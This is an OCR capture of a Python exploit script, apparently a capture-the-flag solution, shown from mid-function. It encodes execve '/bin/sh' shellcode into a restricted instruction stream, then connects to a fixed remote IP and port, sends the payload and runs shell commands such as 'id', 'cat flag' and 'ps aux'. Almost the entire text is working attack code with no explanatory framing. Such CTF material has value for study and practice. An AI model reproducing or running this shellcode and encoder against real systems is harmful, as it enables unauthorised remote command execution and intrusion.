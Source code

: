 ```python  
	# ebx == 0

	buf  = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f"  
	buf += b"\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08"  
	buf += b"\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53"  
	buf += b"\x89\xe1\xcd\x80"

	ebx = 0  
	for ch in buf:  
		n = (ebx-ch) % 256  
		for i in range(n):  
			print('dec ebx')  
		ebx = ebx - n  
		#print('add [eax+0x0],bl')  
		print('db 0x00,0x5C,0x20,0x00')  
		print('inc eax')

	for i in range(0xfff00-0x0000186D):  
		print('inc eax')

	for i in range(0x40):  
		print('db 0x00')  
	print('db 0xff')

	#print("db 'id', 0x0a")

def connect_to_server():  
	s = socket.socket()  
	s.settimeout(10)  
	s.connect(('3.81.191.176',1222))  
	with open('gen_shell','rb') as f:  
		data = f.read(1024)  
		while len(data) > 0:  
			s.send(data)  
			data = f.read(1024)  
		f.close()  
	print(s.recv(50))

	time.sleep(1)  
	s.send(b'id\n')  
	print(s.recv(10240).decode('ascii'))  
	s.send(b'cat flag\n')  
	print(s.recv(10240).decode('ascii'))  
	s.send(b'ls -al\n')  
	print(s.recv(10240).decode('ascii'))  
	s.send(b'ps aux\n')  
	print(s.recv(10240).decode('ascii'))

if __name__ == '__main__':

	#random_shellcode()  
	#real_shellcode() # ./shellcode.py > gen_shell.asm && nasm gen_shell.asm

	connect_to_server()

```
